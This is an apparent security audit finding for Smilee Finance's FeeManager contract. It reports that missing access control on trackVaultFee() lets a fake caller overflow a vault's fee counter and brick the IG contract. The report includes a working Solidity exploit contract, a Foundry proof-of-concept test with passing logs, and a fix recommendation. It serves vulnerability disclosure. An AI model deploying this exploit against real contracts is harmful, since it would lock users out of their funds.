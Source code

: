 Shiny Boysenberry Hyena

high

# Attack on ````FeeManager.trackVaultFee()```` to make the IG contract to be bricked

## Summary
Due to missing of correct access control on ````FeeManager.trackVaultFee()````, attackers can call ````trackVaultFee()```` from a fake IG with malicious parameters to cause any subsequent call from the real IG to revert. As ````FeeManager.trackVaultFee()```` is called in ````IG.mint()```` and ````IG.burn()````, this bug would make IG contract to be bricked, and users can't deposit and withdraw fund.

## Vulnerability Detail
The issue arises on L221 of ````trackVaultFee()````, the current access check is not enough.
```solidity
File: src\FeeManager.sol
218:     function trackVaultFee(address vault, uint256 feeAmount) external {
219:         // Check sender:
220:         IDVP dvp = IDVP(msg.sender);
221:         if (vault != dvp.vault()) {
222:             revert WrongVault();
223:         }
224: 
225:         vaultFeeAmounts[vault] += feeAmount;
226: 
227:         emit TransferVaultFee(vault, feeAmount);
228:     }

File: src\DVP.sol
120:     function _mint(
...
126:     ) internal returns (uint256 premium_) {
...
178:         feeManager.trackVaultFee(address(vault), vaultFee);
179: 
...
195:     }

File: src\DVP.sol
231:     function _burn(
...
238:     ) internal returns (uint256 paidPayoff) {
...
329:         feeManager.trackVaultFee(address(vault), vaultFee);
...
332:     }

```

We can use the following ````Malicious```` contract to bypass it and enforce ````vaultFeeAmounts[vault] == type(uint256).max````, then any  subsequent call would revert on L225 due to addition overflow.
```solidity
contract Malicious {
    address public vault;
    FeeManager private _feeManager;

    constructor(FeeManager feeManager) {
        _feeManager = feeManager;
    }

    function attack(address targetVault) public {
        vault = targetVault;
        uint256 amount = _feeManager.vaultFeeAmounts(vault);
        _feeManager.trackVaultFee(vault, type(uint256).max - amount);
    }

}
```

The following is the full coded PoC :
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.15;

import "./FeeManager.t.sol";
interface IDVP {
    function vault() external view returns(address);
}

contract Malicious {
    address public vault;
    FeeManager private _feeManager;

    constructor(FeeManager feeManager) {
        _feeManager = feeManager;
    }

    function attack(address targetVault) public {
        vault = targetVault;
        uint256 amount = _feeManager.vaultFeeAmounts(vault);
        _feeManager.trackVaultFee(vault, type(uint256).max - amount);
    }

}

contract TrackVaultFeeBugTest is FeeManagerTest {
    function testTrackVaultFeeBug() public {
        IDVP dvp = IDVP(_fakeDVP);
        address vault = dvp.vault();
        // 1. any mint() or burn() operation of DVP would trigger FeeManager.trackVaultFee()
        vm.startPrank(address(dvp));
        _feeManager.trackVaultFee(vault, 0.1e6);
        vm.stopPrank();

        // 2. do attack
        _attack((dvp));

        // 3. the DVP becomes bricked, no funds can be withdrawn
        vm.startPrank(address(dvp));
        vm.expectRevert();
        _feeManager.trackVaultFee(vault, 0.1e6);
        vm.stopPrank();
    }

    function _attack(IDVP dvp) internal {
        Malicious malicious = new Malicious(_feeManager);
        malicious.attack(dvp.vault());
    }
}
```

And the logs:
```solidity
2024-02-smilee-finance\smilee-v2-contracts> forge test --match-test testTrackVaultFeeBug -vv
[⠰] Compiling...
[⠒] Compiling 1 files with 0.8.21Compiler run successful!
[⠢] Compiling 1 files with 0.8.21
[⠆] Solc 0.8.21 finished in 10.77s

Running 1 test for test/TrackVaultFeeBug.t.sol:TrackVaultFeeBugTest
[PASS] testTrackVaultFeeBug() (gas: 324910)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 7.74ms

Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


## Impact
 IG contract get bricked, and users can't deposit and withdraw fund.

## Code Snippet
https://github.com/sherlock-audit/2024-02-smilee-finance/blob/main/smilee-v2-contracts/src/FeeManager.sol#L221
## Tool used

Manual Review

## Recommendation
On allow the  real IG to call ````FeeManager.trackVaultFee()````
